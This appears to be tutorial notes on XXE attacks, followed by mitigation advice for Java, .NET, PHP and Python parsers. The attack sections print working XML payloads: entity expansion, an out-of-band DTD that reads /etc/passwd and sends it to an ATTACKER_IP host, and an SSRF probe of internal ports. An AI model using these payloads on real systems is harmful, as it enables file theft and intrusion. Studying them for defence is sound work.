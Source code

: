 # In-Band XXE Exploitation
In-band XXE refers to an XXE vulnerability where the attacker can see the response from the server. This allows for straightforward data exfiltration and exploitation. The attacker can simply send a malicious [[XML]] payload to the application, and the server will respond with the extracted data or the result of the attack.
#### XML Entity Expansion

XML Entity Expansion is a technique often used in XXE attacks that involves defining entities within an XML document, which the XML parser then expands. Attackers can abuse this feature by creating recursive or excessively large entities, leading to a Denial of Service (DoS) attack or defining external entities referencing sensitive files or services. This method is central to both in-band and out-of-band XXE, as it allows attackers to inject malicious entities into the XML data. For example:

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe "This is a test message" >]>
<contact><name>&xxe; &xxe;
</name><email>test@test.com</email><message>test</message></contact>
```

## Out-Of-Band XXE Exploitation
We can  create a DTD file that contains an external entity with a PHP filter to exfiltrate data from the target web application.

Save the sample DTD file below and name it as `sample.dtd`. The payload below will exfiltrate the contents of `/etc/passwd` and send the response back to the attacker-controlled server:

```xml
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
%oobxxe;
```
Then we can send this XML request to get the contents of `/etc/passwd`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
<upload>
    <file>&exfil;</file>
</upload>
```
## Server-Side Request Forgery + XXE
### Internal Network Scanning
Consider a scenario where a vulnerable server hosts another web application internally on a non-standard port. An attacker can exploit an XXE vulnerability that makes the server send a request to its own internal network resource.
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://localhost:§10§/" >
]>
<contact>
  <name>&xxe;</name>
  <email>test@test.com</email>
  <message>test</message>
</contact>
```


### Avoiding Misconfigurations

Misconfigurations in XML parser settings are a common cause of XXE-related vulnerabilities. Adjusting these settings can significantly reduce the risk of XXE attacks. Below are detailed guidelines and best practices for several popular programming languages and frameworks.

### General Best Practices

1. **Disable External Entities and DTDs**: As a best practice, disable the processing of external entities and DTDs in your XML parsers. Most XXE vulnerabilities arise from malicious DTDs.
2. **Use Less Complex Data Formats**: Where possible, consider using simpler data formats like JSON, which do not allow the specification of external entities.
3. **Allowlisting Input Validation**: Validate all incoming data against a strict schema that defines expected data types and patterns. Exclude or escape XML-specific characters such as <, >, &, ', and ". These characters are crucial in XML syntax and can lead to injection attacks if misused.

### Mitigation Techniques in Popular Languages

**Java**

Use the `DocumentBuilderFactory` and disable DTDs:

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
DocumentBuilder db = dbf.newDocumentBuilder();
```

**.NET**

Configure XML readers to ignore DTDs and external entities:

```csharp
XmlReaderSettings settings = new XmlReaderSettings();
settings.DtdProcessing = DtdProcessing.Prohibit;
settings.XmlResolver = null;
XmlReader reader = XmlReader.Create(stream, settings);
```

**PHP**

Disable loading external entities by libxml:

```php
libxml_disable_entity_loader(true);
```

**Python**

Use `defusedxml` library, which is designed to mitigate XML vulnerabilities:

```python
from defusedxml.ElementTree import parse
et = parse(xml_input)
```

### Regularly Update and Patch

- **Software Updates**: Keep all XML processors and libraries up-to-date. Vendors frequently patch known vulnerabilities.
- **Security Patches**: Regularly apply security patches to web applications and their environments.

### Security Awareness and Code Reviews

- **Conduct Code Reviews**: Regularly review code for security vulnerabilities, especially code that handles XML input and parsing.
- **Promote Security Training**: Ensure developers are aware of secure coding practices, including the risks associated with XML parsing.